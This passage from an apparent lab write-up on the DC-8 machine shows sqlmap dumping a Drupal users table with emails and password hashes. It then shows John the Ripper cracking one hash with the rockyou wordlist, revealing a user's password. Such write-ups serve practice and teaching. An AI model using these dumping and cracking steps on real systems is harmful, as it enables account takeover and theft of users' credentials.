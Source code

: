 ~~~
| uid | data                                                                                                                                                                        | init                | mail                  | name    | pass                                                    | login      | theme   | access     | status | created    | picture | timezone           | signature | language   | signature_format |
+-----+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-----------------------+---------+---------------------------------------------------------+------------+---------+------------+--------+------------+---------+--------------------+-----------+------------+------------------+
| 0   | NULL                                                                                                                                                                        | <blank>             | <blank>               | <blank> | <blank>                                                 | 0          | <blank> | 0          | 0      | 0          | 0       | NULL               | <blank>   | <blank>    | NULL             |
| 1   | a:2:{s:7:"contact";i:0;s:7:"overlay";i:1;}                                                                                                                                  | dc8blah@dc8blah.org | dcau-user@outlook.com | admin   | $S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z | 1567766626 | <blank> | 1567766818 | 1      | 1567489015 | 0       | Australia/Brisbane | <blank>   | <blank>    | filtered_html    |
| 2   | a:5:{s:16:"ckeditor_default";s:1:"t";s:20:"ckeditor_show_toggle";s:1:"t";s:14:"ckeditor_width";s:4:"100%";s:13:"ckeditor_lang";s:2:"en";s:18:"ckeditor_auto_lang";s:1:"t";} | john@blahsdfsfd.org | john@blahsdfsfd.org   | john    | $S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF | 1567497783 | <blank> | 1567498512 | 1      | 1567489250 | 0       | Australia/Brisbane | <blank>   | <blank>    | filtered_html    |
+-----+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-----------------------+---------+---------------------------------------------------------+------------+---------+------------+--------+------------+---------+--------------------+-----------+------------+------------------+

[18:24:33] [INFO] table 'd7db.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/dc-8/dump/d7db/users.csv'
[18:24:33] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/dc-8'

[*] ending @ 18:24:33 /2020-10-11/
~~~

### John's credentials

We have hashes, let's brute force them with John:

~~~
kali@kali:/data/DC_8/files$ /data/src/john/run/john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
turtle           (john)
1g 0:00:00:01 DONE (2020-10-11 18:27) 0.9259g/s 466.6p/s 466.6c/s 466.6C/s genesis..claire
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~
